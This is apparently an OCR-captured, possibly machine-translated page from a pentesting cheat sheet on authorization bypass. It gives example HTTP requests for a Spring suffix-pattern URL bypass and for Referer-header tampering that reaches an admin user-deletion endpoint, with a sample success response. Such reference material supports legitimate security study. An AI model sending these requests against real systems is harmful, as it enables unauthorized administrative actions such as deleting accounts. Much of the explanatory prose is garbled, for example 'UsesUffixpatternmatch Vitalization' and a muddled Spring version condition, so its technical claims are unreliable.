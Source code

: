 - IDOR to Shell:
https://pentesterlab.com/exercises/idor_to_shell/course

### UsesUffixpatternmatch Vitalization vulnerable- (Spring Framework <5.3)
If the usesUffixPaternmatch setting is activated by default in the Spring framework of 5.3, the method mapped to `/adminURL 'can detour a URL filter by consistent with'/adminURL [.].
- Purpose: access to resources without permission after attempting a URL bypass through the URL's surfix pattern matching
- Attack example:

**HTTP Request**
```
GET /adminURL.Raccoon HTTP/2
Host: SpringApp
```

**HTTP Response**
- 200 OK when successful: Adminurl access by bypassing the Adminurl panel.
- Fail 403 forbidden: Unacceptable.

### Parameter Tampering 
- Purpose: Parameter manipulation and accessing without permissions
- Attack example:
For web servers that control access through Referer, you can manipulate the referer parameter to access high permissions.For example, the HTTP Request header includes an Admin URL in the Referer header, which can be forged as if the Admin permissions are requested.

**HTTP Request**
```
GET /admin/deleteUser HTTP/1.1
Host: redraccoon.kr
Referer: http://redraccoon.kr/admin
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: session=ABC123
Connection: close
```

- 200 OK when successful, Admin/deleteuser function access by bypassing the Admin Rights access.
- Fail 403 forbidden: Unacceptable.

**HTTP Response**
```
HTTP/1.1 200 OK
Date: Mon, 07 Jun 2024 12:05:00 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 200
Connection: close

<!DOCTYPE html>
<html>
<head>
  <title>Delete User</title>
</head>
<body>
  <h1>Delete User Page</h1>
  <p>User successfully deleted.</p>
</body>
</html>
```
